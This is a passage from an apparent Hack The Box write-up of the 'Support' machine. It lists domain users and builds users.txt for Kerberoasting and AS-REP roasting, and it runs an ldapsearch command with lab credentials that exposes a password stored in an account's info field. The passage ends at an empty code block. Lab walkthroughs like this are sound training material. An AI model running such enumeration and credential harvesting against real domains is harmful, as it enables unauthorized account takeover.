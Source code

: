 ```bash
Key Admins
Enterprise Key Admins
DnsAdmins
DnsUpdateProxy
Shared Support Accounts
ldap
support
smith.rosario
hernandez.stanley
wilson.shelby
anderson.damian
thomas.raphael
levine.leopoldo
raven.clifton
bardot.mary
cromwell.gerard
monroe.david
west.laura
langley.lucy
daughtler.mabel
stoll.rachelle
ford.victoria
Administrator
Guest

```
I then remove all the group names so I'm left with a list of users to try a kerberoast or asrepreoast with.
```bash
┌──(kali㉿Kali)──[1:00:07]──[~/htb/Machines/Support]
└─$ echo 'ldap
support
smith.rosario
hernandez.stanley
wilson.shelby
anderson.damian
thomas.raphael
levine.leopoldo
raven.clifton
bardot.mary
cromwell.gerard
monroe.david
west.laura
langley.lucy
daughtler.mabel
stoll.rachelle
ford.victoria' > users.txt
```

I poke around for awhile. I try an asrep and kerberoast. I run Bloodhound. I try some things from [WADComs](https://wadcoms.github.io/) and [HackTricks.](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology) Nothing. I eventually come back to poking around in `ldapsearch`. I eventually decide to check if there are any info fields in any of the accounts. I run the `ldapsearch` and `grep` for "info", which outputs something that looks suspiciously like a password. 
```bash
┌──(kali㉿Kali)──[1:01:44]──[~/htb/Machines/Support]
└─$ ldapsearch -x -H ldap://$IP -D 'SUPPORT\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB" | grep -i info
 298939 for more information.
info: Ironside47pleasure40Watchful
```
I run `grep` again with the possible password and the `-B 15` flag, to print 15 lines before the grepped phrase. And I find that it's for the `support` account.
```bash
```